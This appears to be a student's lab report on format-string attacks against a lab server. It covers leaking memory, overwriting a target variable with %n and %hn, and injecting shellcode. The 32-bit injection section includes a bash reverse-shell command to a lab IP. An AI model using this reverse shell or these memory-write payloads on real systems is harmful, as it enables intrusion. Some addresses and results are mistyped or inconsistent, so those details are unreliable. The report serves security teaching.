# Part 2

## Task 1 Crashing the Program
Note: For clarity sake, the yellow window is the server terminal and blue is the attack terminal.
Each screenshot has the time, either printed in the terminal window using `date` or at the top of the VM window.

Ran the program with a "safe" black input and saw the proper return. To crash the program I modified build_string.py to generate a string with 1600 `%s` format specifiers. The program  crashed and did not return properly.


## Task 2 Printing Out
### 2a
I used guess and check to figure out that I needed 64 `%x.` to find the first four bytes of my input (bfffeeee) the `build_stringstack.py` builds. I started at 10 `%x.`, saw I needed more, then 100 and I saw `bfffeeee.31313131` printed and needed less, then 50 saw I needed more, then 75 and counted down. In the image below you can see using `(%x.) * 65`. I saw the last two values are the first two of my input string.

### 2b
Using the information I gathered in part A. I used the address of the secret message `0x080b4008` as the first four bytes of input in `build_stringheap.py`. In order to find the value used 63 `%x.` and concatenated a `%s`. This printed the string at the address of the secret message 'A secret message'.


## Task 3 Modifying Server Program Memory
### 3a
I used the proper the 63 `%x` format specfiers as aboce to go to the location of the input in the stack. I encoded the address of the target value as the first four bytes of input. I then used the `%n` format specfier to write to the target address. The before value was `0x11223344` the after value is `0x0000012f`


### 3b

To change the value to `0x5000` I used the `%.dx` format specifier method. I calcualted the vaalue by subtracting `0x5000` by the previous address. My calculation was a bit off due to converting the 63 `%x` format specifiers to 62 `%.8x` modifiers. I adjusted it and found the value 19980. My successful string I used was `(".8x"*62) + "%.19980x" + %n"`.


## 3c

To change the value to `0xAABBCCDD` I used the `%.dx` format specifier method and `%hn` to write to two separate 2 bytes segments. I calculated the value for the lower two bytes by subtracting `0xAABB` by the previous address distance to the address. I then found that to get the value for the upper bytes `0xCCDD` I had to subtract by the value of the lower two bytes.


## Task 4 Code Injection

### 4.1

#### 1
The value of 2 the return address is -`0xffffd6ec` as seen in my code. I got this value by adding four to the frame pointer address,ebp - `0xffffd6e8`. Because the return address sits 4 above ebp. The value of 3 the start of input array is `0xffffd730`, I use `0xffffd7c0` which is 144 bytes above the array to try to hit the NOP sled.
#### 2
As in the prelimanary exercises in this lab, it takes `%.x * 62` modifiers to get from 1 to 3.

### 4.2
As explained above the earlier exercises in this enviroment made launching the attack much easier since I did not need to investigate much. In order to construct my string I used the return address, `0xffffd6ee` and the return address + 2, `0xffffdec`. This let me write  `0xffff` to `0xffffd6ee` and `0xd7c0` to `0xffffdec`. Formatting these addressses was different `0xffff` since larger than `0xd7c0`. I realized I essentially was starting at `0xffff` and "loop around" by print more to get to `0xd7c0`. In restrospect it was simple, but it stumped me for a while. I also added `/bin/bash -i > /dev/tcp/10.0.2.6/00 0<&1 2>&1`


#### 2
## Task 5 64 Bit Injection
Unlike the 32bit injection which had multiple steps leading the injection attack. I know nothing about the stack I'm attacking. I took these steps to attack:
1.  Investigation: Use `%.lx` formtat modifiers to find where the input starts on the stack. I spent HOURS trying to figure out how to get the address to work. I then went back and reread the book. I realized I didn't need the address to be at the start of the format string, and I could put it at the end. Using padding to create a fized length I then put the address I need at the end. I practiced on the `target address`.
2. Test address placement: The big problem I had with the 32 bit injection was formatting the adddresses properly. For my solution I decided to overcome the issue with `0x00` by using padding, 512 bytes in my case, to specifically place the address deep enough into the content so that I could fit the rest of the format string and shellcode before it. This worked and I was able to change the value at the target address, with `0x00007fff` as the first 8 bytes. 

3. Attack:
After several more hours of trying to get my injection to work. I couldn't find a solution as to why I couldn't get a reverse shell root. As you can see in my screenshot I was about 90% there. I was able to see that the shellcode was being read properly. My guess is that I couldn't find the proper area to jump to hit the NOP sled or my code had a bug.


## Task 6 Fixing the Problem
1. The warning is telling the user that there is a `printf()` function that is unsafely executing in our case without a string or format arguments that leaves it more vulnerable to format strin attacks.
2. I was able to fix the warning in `format.c` by adding a string with a string format specifier as the first argument chaning it to `printf("%s", msg)`,
3. As you can see in the screenshot shutdown the server, recompiled (without the warning) format.c, pruned and rebuilt the server, and relaunched the server. i did this multpile times and got the same result. I chose to use the "change target address value to 0xAABBCCDD" attack. As you can see below, it was still successful even though code recompiled without an error.
Note: regardless of what I tried to do, I was always able to overwrite the target variable to `0xAABBCCDD`. My screenshots show two of the many times I attempted. They show proper compliation of frormat.c, pruning and rebuilding of the server, and the successful attack.


